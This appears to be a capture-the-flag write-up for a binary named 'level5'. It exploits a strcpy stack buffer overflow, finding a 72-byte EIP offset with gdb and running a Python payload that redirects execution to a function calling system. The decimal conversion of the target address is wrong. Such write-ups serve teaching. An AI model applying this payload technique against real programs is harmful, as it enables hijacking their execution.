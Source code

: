 After anaylizing the disasembled main:
We got a n and m functions
Only n is interesting because it calls a system function

The main is using strcpy to copy the first argument to a buffer.
so we can use a buffer overflow to make the strcpy copy the address of the system function to the buffer.

let's find the offset eip with gdb and the help of this tool https://wiremask.eu/tools/buffer-overflow-pattern-generator/:

make a pattern with a length of 100 bytes
run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
info register eip
eip            0x41346341	0x41346341

the offset is 72 bytes

the n address is 0x08048454(134513780 in decimal)

let's create the payload:
python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/exploit

we're simply gonna give the input in the arguments of the program:

./level5 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
